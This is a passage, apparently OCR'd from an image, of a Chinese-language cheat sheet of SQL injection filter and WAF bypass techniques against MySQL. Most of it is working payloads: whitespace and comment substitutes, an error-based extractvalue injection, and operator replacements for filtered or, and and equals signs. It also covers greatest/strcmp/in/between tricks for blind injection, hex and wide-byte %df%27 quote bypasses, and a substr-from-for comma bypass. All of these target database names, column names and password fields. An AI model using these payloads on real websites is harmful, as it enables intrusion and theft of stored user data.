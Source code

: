 ```
9）%09
10）%0C
11）%0D
12）%0B
13）+
14）两个空格
15）//
17）/*!  */     /*!90000  */
16）没有空格的报错注入
      举例 id=-1'||extractvalue(1,concat('~',select(database())))#
eg：union//select//1,2
select(passwd)from(users) #注意括号中不能含有*
selectpasswdfromusers
7.过滤or and xor(异或) not 绕过
（and和or被过滤掉时，可以用异或（同0异1）和同或（同1异0））
and = &&
or = ||
异或
xor = |
1^1^0     1^1^1
同或
not = !
8.过滤等号=绕过
1）不加通配符的like执行的效果和=一致，所以可以用来绕过。
eg：UNION SELECT 1,group_concat(column_name) from
information_schema.columns where table_name like “users”
2）rlike:模糊匹配，只要字段的值中存在要查找的 部分
就会被选择出来，用来取代=时，rlike的用法和上面的like一样，没有通配符效果和=一样
eg：UNION SELECT 1,group_concat(column_name) from
information_schema.columns where table_name rlike “users”
3）regexp:MySQL中使用 REGEXP 操作符来进行正则表达式匹配
eg：UNION SELECT 1,group_concat(column_name) from
information_schema.columns where table_name regexp “users”
4）使用大小于号来绕过
eg：select * from users where id > 1 and id < 3
5）<> 等价于 !=，所以在前面再加一个!结果就是等号了
eg：select * from users where !(id <> 1)
9.过滤大小于号绕过
在sql盲注中，一般使用大小于号来判断ascii码值的大小来达到爆破的效果。
1）greatest(n1, n2, n3…):返回n中的最大值
eg：select * from users where id = 1 and
greatest(ascii(substr(username,1,1)),1)=116
2）least(n1,n2,n3…):返回n中的最小值，与上同理。
3）strcmp(str1,str2):若所有的字符串均相同，则返回0，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回1
eg：select * from users where id = 1 and
strcmp(ascii(substr(username,1,1)),117)
4）in关键字
eg：select * from users where id = 1 and substr(username,1,1) in (‘t’)
5）between a and b:范围在a-b之间，包括a、b。
eg：select * from users where id between 1 and 2
select * from users where id between 1 and 1
10过滤引号绕过
1）使用十六进制
eg：UNION SELECT 1,group_concat(column_name) from
information_schema.columns where table_name=0x61645F6C696E6B
2）宽字节，常用在web应用使用的字符集为GBK时，并且过滤了引号，就可以试试宽字节。%27表示 ‘(单引号)，单引号会被转义成’
eg：%E6’ union select 1,2 #
%df%27 union select 1,2,3 #
11.过滤逗号绕过
1）如果waf过滤了逗号，并且只能盲注，在取子串的几个函数中，有一个替代逗号的方法就是使用from pos for
len，其中pos代表从pos个开始读取len长度的子串 eg：常规写法 select substr(“string”,1,3)
若过滤了逗号，可以使用from pos for len来取代 select substr(“string” from 1 for 3)
sql盲注中 select ascii(substr(database() from 1 for 1)) > 110
```